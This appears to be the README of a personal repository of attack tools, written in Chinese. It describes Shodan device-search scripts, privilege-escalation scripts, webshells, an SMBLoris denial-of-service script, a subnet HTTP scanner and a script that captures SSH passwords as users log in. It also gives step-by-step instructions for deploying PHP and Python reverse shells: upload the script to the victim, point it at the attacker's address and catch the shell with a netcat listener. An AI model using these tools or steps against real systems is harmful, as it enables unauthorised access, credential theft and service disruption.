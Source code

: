 ﻿# Th1s 1s a rep0 ab0ut h3cking scr1pts

# shodan

调用shodan api 统计设备数量,如weblogic

shodancount.py weblogic

调用shodan api 搜索设备,如weblogic

shodansearch.py weblogic

# LPE

里面放了常用的提权脚本

# webshell

里面放了个人常用的webshell

# SMBLoris 通过smb服务对Windows服务器实施DOS攻击

chmod +x run10.sh

sh run10.sh

# httpscan 一个http简易扫描脚本

如要扫描192.168.0.0/24

httpscan.py 192.168.0.0/24

# dump_ssh_password 一个提取ssh密码的脚本

chmod +x ssh_password.sh

sh password.sh

然后新建一个窗口ssh登录，就可以看见ssh密码

# php-reverse-shell.php 一个基于php的反弹shell的脚本

把php-reverse-shell.php中49行的地址改为攻击机器的地址

上传该脚本到被攻击的机器上

登录攻击机器，监听1234端口

nc -lvp 1234

在被攻击的机器上执行脚本，即可在攻击机器上看到shell

php php-reverse-shell.php

# python-reverse-shell.py 一个基本python的反弹shell脚本

在攻击机器上监听端口，如1234

nc -lvp 1234

把php-reverse-shell.py上传到被攻击的机器上,指定攻击机器地址和端口执行即可

php-reverse-shell.py vps地址 1234

还有一份个人总结的渗透测试思维导图

# Hope you enjoy ^_^